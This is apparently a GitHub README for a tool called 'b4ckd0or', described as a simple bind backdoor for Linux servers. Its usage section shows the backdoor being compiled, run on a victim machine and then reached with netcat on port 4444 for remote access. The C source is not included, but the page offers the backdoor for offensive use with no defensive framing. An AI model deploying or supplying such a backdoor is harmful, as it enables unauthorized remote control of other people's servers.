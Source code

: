 # b4ckd0or
            /\
           / \\ /\
      /\  /\/  \\V  \/\
     / \\/ // \\\\\ \\ \/\
    //  /   Medn1c    \/ \\
   
Simple bind backdoor destined for linux servers
Use:

    root@medn1c:~# gcc main.c -o backdoor
    root@vitima:~# ./backdoor
    root@medn1c:~# nc -v 192.168.0.52 4444
    
